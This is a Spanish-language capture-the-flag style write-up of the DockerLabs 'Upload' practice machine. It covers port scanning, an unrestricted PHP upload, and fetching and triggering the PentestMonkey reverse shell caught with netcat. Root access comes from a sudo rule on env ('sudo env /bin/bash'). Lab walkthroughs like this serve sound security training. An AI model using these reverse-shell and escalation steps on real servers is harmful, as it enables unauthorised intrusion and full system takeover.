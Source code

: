 ```yaml
---
title: Upload
description: DockerLabs es una plataforma gratuita diseñada para practicar hacking ético al alcance de todo el mundo utilizando Docker. DockerLabs ofrece un entorno seguro y accesible para desplegar laboratorios vulnerables de la forma más eficiente y sencilla posible.
date: 2025-06-02
toc: true
pin: false
image:
 path: /assets/img/dockerlabs-writeup-upload/upload_logo.png
categories:
  - Docker Labs
tags:
  - linux
  - dockerlabs
  - tcp
  - http
  - php
  - rce
  - interactive tty
  - sudo abuse
  - information gathering
  - web analysis
  - vulnerability exploitation
  - privilege escalation

---
```

## Information Gathering

El análisis inicial comienza con el comando ping para confirmar la accesibilidad de la máquina objetivo en la red.

```terminal
/home/kali/Documents/dockerlabs/upload:-$ ping -c 1 172.17.0.3                       
PING 172.17.0.3 (172.17.0.3) 56(84) bytes of data.
64 bytes from 172.17.0.3: icmp_seq=1 ttl=64 time=0.066 ms

--- 172.17.0.3 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.066/0.066/0.066/0.000 ms
```

Realizo un escaneo agresivo de puertos con nmap, lo que me permite identificar rápidamente todos los puertos abiertos.

```terminal
/home/kali/Documents/dockerlabs/upload:-$ nmap -p- --open -sS --min-rate 5000 -vvv 172.17.0.3 -n -Pn -oG nmap1
Host: 172.17.0.3 ()	Status: Up
Host: 172.17.0.3 ()	Ports: 80/open/tcp//http///	Ignored State: closed (65534)
```

Profundizo en los puertos detectados, recopilando información detallada sobre los servicios y versiones en ejecución.

```terminal
/home/kali/Documents/dockerlabs/upload:-$ nmap -sCV -vvv -p80 172.17.0.3 -oN nmap2
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Upload here your file
|_http-server-header: Apache/2.4.52 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
MAC Address: DE:6E:DF:98:83:32 (Unknown)
```

```terminal
/home/kali/Documents/dockerlabs/upload:-$ whatweb 172.17.0.3
http://172.17.0.3 [200 OK] Apache[2.4.52], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.52 (Ubuntu)], IP[172.17.0.3], Title[Upload here your file]
```

---
## Web Analysis & Vulnerability Exploitation

El servicio web en el puerto 80 presenta un único formulario funcional, que permite subir archivos al servidor Apache. El formulario acepta archivos `.php`, lo que sugiere una posible vía de ejecución remota de código si el archivo es accesible públicamente.

![](assets/img/dockerlabs-writeup-upload/upload1_1.png)

Realizo un escaneo de rutas, lo que permite descubrir el directorio `/uploads/`, el cual está expuesto y accesible.

```terminal
/home/kali/Documents/dockerlabs/upload:-$ dirb http://172.17.0.3/
---- Scanning URL: http://172.17.0.3/ ----
+ http://172.17.0.3/index.html (CODE:200|SIZE:1361)
+ http://172.17.0.3/server-status (CODE:403|SIZE:275)
==> DIRECTORY: http://172.17.0.3/uploads/
```

Descargó la reverse shell de PentestMonkey, modifico la IP y puerto y subo el archivo mediante el formulario.

```terminal
/home/kali/Documents/dockerlabs/upload:-$ wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/refs/heads/master/php-reverse-shell.php -O shell.php
```

Luego de subir la shell, y acceder a `/uploads/` se puede ver que el archivo aparece listado correctamente.

![](assets/img/dockerlabs-writeup-upload/upload1_2.png)


Con esto definido, inicio un listener con netcat.

```terminal
/home/kali/Documents/dockerlabs/upload:-$ nc -lnvp 4321
	listening on [any] 4321 ...
```

Y ejecutó la reverse shell desde la treminal con curl. Esto me otorga acceso remoto con permisos del usuario `www-data`.

```terminal
/home/kali/Documents/dockerlabs/upload:-$ curl http://172.17.0.3/uploads/shell.php

	... connect to [172.17.0.1] from (UNKNOWN) [172.17.0.3] 46044

www-data@07b83fa8d21f:/$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

---
## Privilege Escalation

Para mejorar la interacción, restauro el entorno interactivo para mejorar la visibilidad y control de la shell.

```terminal
www-data@07b83fa8d21f:/$ script /dev/null -c bash
www-data@07b83fa8d21f:/$ ^Z
home/kali/Documents/dockerlabs/upload:-$ stty raw -echo;fg
[2]  + continued  nc -nvlp 4321
				reset xterm

www-data@07b83fa8d21f:/$ export TERM=xterm
www-data@07b83fa8d21f:/$ export SHELL=bash
www-data@07b83fa8d21f:/$ stty rows 36 columns 138
```

Consulto el archivo `/etc/passwd` para identificar otros usuarios del sistema, los cuales poseen shells válidos.

```terminal
www-data@07b83fa8d21f:/$ grep sh$ /etc/passwd
root:x:0:0:root:/root:/bin/bash
```

Los permisos `sudo`, revelan que el binario `/usr/bin/env` puede ejecutarse como `root` sin necesidad de contraseña.

```terminal
www-data@07b83fa8d21f:/$ sudo -l
Matching Defaults entries for www-data on 07b83fa8d21f:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User www-data may run the following commands on 07b83fa8d21f:
    (root) NOPASSWD: /usr/bin/env
```

Tal como se documenta en [GTFObins](https://gtfobins.github.io/gtfobins/env/#sudo). Esta configuración permite escalar privilegios a `root` mediante una shell directa con `env`.

```terminal
www-data@07b83fa8d21f:/$ sudo env /bin/bash

root@07b83fa8d21f:/# id
uid=0(root) gid=0(root) groups=0(root)
```
